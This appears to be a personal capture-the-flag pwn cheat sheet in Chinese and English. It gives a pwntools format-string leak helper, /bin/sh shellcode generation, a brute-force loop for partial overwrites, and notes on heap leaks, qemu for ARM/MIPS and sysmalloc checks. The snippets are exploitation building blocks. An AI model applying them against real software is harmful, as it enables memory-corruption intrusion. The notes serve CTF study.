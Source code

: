 
## fmt_leak
做fmtstr时可以用的一个gadget方便泄露
```
def fmt_leak(lenth):
	for x in range(1,lenth):
		payload="%{}$p".format(str(x))
		p.sendline(payload)
		data=p.readline()
		if (data=="(nil)\n"):
			data="0x0"
		data=(int(data,16))
		log.success("%sth=============>%s",str(x),hex(data))
```
## ELF->"/bin/sh"
	libc.search("/bin/sh").next()
## shellcode

	context.arch='amd64'
	shcode=asm(shellcraft.sh())


## Partial Write Burp

```sh
#!/bin/bash
for i in `seq 1 5000`; do python exp.py; done;
```

## uninitialized variable

堆栈的内容可能被之前的函数控制

## 遗留数据导致泄露

malloc时候没有memset
而且写入数据没有用0截断

## arm & mips 环境

[link][3]
qemu指定lib路径例如：
qemu-mipsel -L /usr/mipsel-linux-gnu/ ./add
qemurun后调试：
qemu-mipsel -g 1234 -L /usr/mipsel-linux-gnu/ ./add

## sysmalloc

两个assert
```python
old_size >= 0x1f
old_top &0x1=1
old_end is the end of page
old_size < nb+MINSIZE
```
## IO_FILE Payload


[1]: https://blog.csdn.net/chdhust/article/details/8495921
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://ctf-wiki.github.io/ctf-wiki/pwn/linux/arm/environment/
[4]: https://www.cs.utexas.edu/~bismith/test/syscalls/syscalls64_orig.html
[5]: http://syscalls.kernelgrok.com/
[6]: https://github.com/geohot/qira/pull/203
[7]: https://zhuanlan.zhihu.com/p/31918676
[8]: ../code/CompileAsmwithGcc/